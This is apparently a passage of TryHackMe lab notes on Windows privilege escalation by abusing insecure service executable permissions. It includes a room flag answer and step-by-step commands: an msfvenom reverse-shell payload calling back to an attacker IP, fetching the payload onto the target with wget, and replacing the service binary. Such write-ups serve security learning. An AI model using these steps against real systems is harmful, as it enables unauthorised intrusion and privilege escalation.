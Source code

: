 ```markdown
1. What is the taskusr1 flag? - THM{TASK_COMPLETED}
```

## Abusing Service Misconfigurations

* Windows Services:

```shell
#Windows services are managed by SCM - Service Control Manager
sc qc apphostsvc
#to get structure of apphostsvc service
#BINARY_PATH_NAME - associated executable
#SERVICE_START_NAME - account that runs service

#user privileges for services can be viewed using Process Hacker app
#service config stored under HKLM\SYSTEM\CurrentControlSet\Services\
```

* Insecure Permissions on Service Executable:

```shell
sc qc WindowsScheduler
#service installed by svcuser1
#executable for service is C:\Progra~2\System~1\WService.exe

icacls C:\Progra~2\System~1\WService.exe
#shows that everyone can modify the executable
```

```shell
#in attacker machine, create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.48.136 LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server
```

```ps
#back in target machine, use PowerShell to fetch payload
wget http://10.17.48.136:8000/rev-svc.exe -O rev-svc.exe
```

```shell
#in target machine cmd.exe
dir
#check if payload present

#refer executable path
cd C:\

cd PROGRA~2

cd SYSTEM~1

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F
#grant full permissions to everyone group
```
